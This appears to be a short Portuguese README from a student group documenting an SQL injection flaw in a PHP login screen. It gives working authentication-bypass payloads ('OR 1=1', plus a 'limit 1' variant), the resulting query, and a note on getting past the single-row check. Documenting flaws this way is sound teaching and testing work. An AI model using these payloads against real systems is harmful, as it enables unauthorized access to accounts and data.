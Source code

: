 ## Grupo:

- Letícia Silverio
- João Victor da Silva

### Vulnerabilidades:

- **Os inputs estão vulneráveis à injeção de script sql:**

Ao inserir o seguinte script sql em um dos inputs da tela de login, podemos iniciar uma sessão dentro da aplicação burlando com uma condição verdadeira (or 1=1):

```sql
teste' OR 1=1; show databases; #
```

sendo executada a seguinte query por detrás:

```sql
SELECT * FROM tb_admin WHERE nm_admin ='teste' or 1=1; show databases; #' AND ds_senha = ''
```

> Obs: Este comando retorna como verdadeiro somente se tiver 1 usuário cadastrado, pois é verificado o retorno de apenas 1 row. Caso tenha mais usuários cadastrados (bem provável numa aplicação real), podemos utilizar o "limit 1" para retornar apenas uma linha de registro, passando assim pela verificação do PHP:

```sql
teste' OR 1=1 limit 1; show databases; #
```
